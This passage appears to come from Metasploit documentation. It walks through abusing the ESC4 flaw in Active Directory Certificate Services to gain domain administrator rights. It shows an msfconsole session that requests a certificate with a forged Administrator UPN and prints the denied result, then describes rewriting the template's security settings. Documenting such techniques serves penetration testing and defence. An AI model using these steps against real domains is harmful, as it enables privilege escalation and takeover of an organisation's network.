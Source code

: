 We can then use the `kerberos/get_ticket` module to gain a Kerberos ticket granting ticket (TGT) as the `Administrator`
domain administrator. See the [Getting A Kerberos Ticket](#getting-a-kerberos-ticket) section for more information.

# Exploiting ESC4 To Gain Domain Administrator Privileges
To exploit ESC4, we will require an account with write privileges over a certificate template object in Active
Directory. This involves finding an object with weak permissions defined within the `nTSecurityDescriptor` field. With
this object identified, we can modify it to reconfigure the template to be vulnerable to another ESC technique.

First, we will use the `icpr_cert` module in an attempt to exploit ESC1 (by setting `ALT_UPN`). This fails because
the `ESC4-Test` certificate template does not allow the certificate's subject name to be supplied in the request (the
`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` flag is not set in the `msPKI-Certificate-Name-Flag` field).

```msf
msf6 > use auxiliary/admin/dcerpc/icpr_cert 
msf6 auxiliary(admin/dcerpc/icpr_cert) > set RHOSTS 172.30.239.85
RHOSTS => 172.30.239.85
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBUser normaluser
SMBUser => normaluser
msf6 auxiliary(admin/dcerpc/icpr_cert) > set SMBPass normalpass
SMBPass => normalpass
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CA daforest-WIN-BR0CCBA815B-CA
CA => daforest-WIN-BR0CCBA815B-CA
msf6 auxiliary(admin/dcerpc/icpr_cert) > set CERT_TEMPLATE ESC4-Test
CERT_TEMPLATE => ESC4-Test
msf6 auxiliary(admin/dcerpc/icpr_cert) > set ALT_UPN Administrator@daforest.com
ALT_UPN => Administrator@daforest.com
msf6 auxiliary(admin/dcerpc/icpr_cert) > run 
[*] Running module against 172.30.239.85

[-] 172.30.239.85:445 - There was an error while requesting the certificate.
[-] 172.30.239.85:445 - Denied by Policy Module
[-] 172.30.239.85:445 - Error details:
[-] 172.30.239.85:445 -   Source:  (0x0009) FACILITY_SECURITY: The source of the error code is the Security API layer.
[-] 172.30.239.85:445 -   HRESULT: (0x80094812) CERTSRV_E_SUBJECT_EMAIL_REQUIRED: The email name is unavailable and cannot be added to the Subject or Subject Alternate name.
[*] Auxiliary module execution completed
msf6 auxiliary(admin/dcerpc/icpr_cert) > 
```

Next, we use the `ad_cs_cert_template` module to update the `ESC4-Test` certificate template. This process first makes a
backup of the certificate data that can be used later. Next, the local certificate template data is read and used to
update the object in Active Directory. The local certificate template data can be modified to set a custom security
descriptor.

